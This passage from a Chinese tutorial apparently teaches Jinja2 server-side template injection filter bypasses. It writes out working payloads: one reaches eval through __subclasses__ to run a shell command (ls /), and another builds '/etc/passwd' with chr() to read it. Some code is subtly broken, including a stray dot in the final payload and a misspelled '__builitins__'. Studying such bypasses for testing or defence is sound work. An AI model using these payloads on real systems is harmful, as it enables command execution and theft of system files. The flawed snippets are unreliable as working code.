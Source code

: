 我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号`[]`里来访问，一种就是用点`.`来访问。所以，当方括号`[]`被过滤之后，我们还可以用点`.`的方式来访问，如下示例

首先构造

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

绕过后

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

```
不难看出['__builitins__']=.__builtins__.
所以可以['']=..
```

#### 过滤了引号`''""`

##### 利用chr()绕过

因为知识比较匮乏，所以补充了一下`chr()`函数是干啥的

* * *

描述

chr() 用一个范围在 range（256）内的（就是0～255）整数作参数，返回一个对应的字符。

语法

以下是 chr() 方法的语法:

```
chr(i)
```

参数

*   i -- 可以是10进制也可以是16进制的形式的数字。

返回值

返回值是当前整数对应的 ASCII 字符。

* * *

所以`chr()`这个函数可以绕过直接输入，利用返回的相对应的ASCll字符来执行命令

但是我们没法直接使用chr函数，所以我们需要先通过`__builtins__`来找到它（`__builtins__`方法是作为默认初始模块出现的，可用于查看当前所有导入的内建函数。）

```
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}
```

然后我们再去赋值给chr，后面拼接字符串

```
{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
```
